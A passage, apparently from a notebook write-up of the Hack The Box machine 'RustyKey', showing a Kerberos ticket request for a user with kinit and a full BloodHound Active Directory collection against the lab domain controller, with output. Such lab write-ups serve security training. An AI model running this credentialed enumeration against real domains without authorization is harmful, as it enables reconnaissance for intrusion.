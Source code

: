             }
    
    [domain_realm]
            .rustykey.htb = RUSTYKEY.HTB
            rustykey.htb = RUSTYKEY.HTB



```python
!echo $initialpassword | KRB5_CONFIG=./krb5.conf KRB5CCNAME=./rr.ccache kinit rr.parker
!ls -alhn ./rr.ccache
```

    Password for rr.parker@RUSTYKEY.HTB: 
    Warning: encryption type arcfour-hmac used for authentication is deprecated and will be disabled
    -rw------- 1 1000 990 1.6K Jul  6 22:44 ./rr.ccache


This mostly comes with the benefit of hindsight. During the engagement I didn't get this working exactly right, but this command will pull bloodhoudn goodies.


```python
!KRB5CCNAME=./rr.ccache KRB5_CONFIG=./krb5.conf bloodhound-python -u $initialuser -k -no-pass -ns 10.129.26.114 -d $target -dc dc.rustykey.htb -c All
```

    INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
    INFO: Found AD domain: rustykey.htb
    INFO: Using TGT from cache
    INFO: Found TGT with correct principal in ccache file.
    INFO: Connecting to LDAP server: dc.rustykey.htb
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 16 computers
    INFO: Connecting to LDAP server: dc.rustykey.htb
    INFO: Found 12 users
    INFO: Found 58 groups
    INFO: Found 2 gpos
    INFO: Found 10 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: 
    INFO: Querying computer: 
    INFO: Querying computer: 
    INFO: Querying computer: 
    INFO: Querying computer: 
    INFO: Querying computer: 
    INFO: Querying computer: 
    INFO: Querying computer: 
    INFO: Querying computer: 
    INFO: Querying computer: 
    INFO: Querying computer: 
    INFO: Querying computer: 
    INFO: Querying computer: 
    INFO: Querying computer: 
    INFO: Querying computer: 
    INFO: Querying computer: dc.rustykey.htb
    INFO: Done in 00M 21S

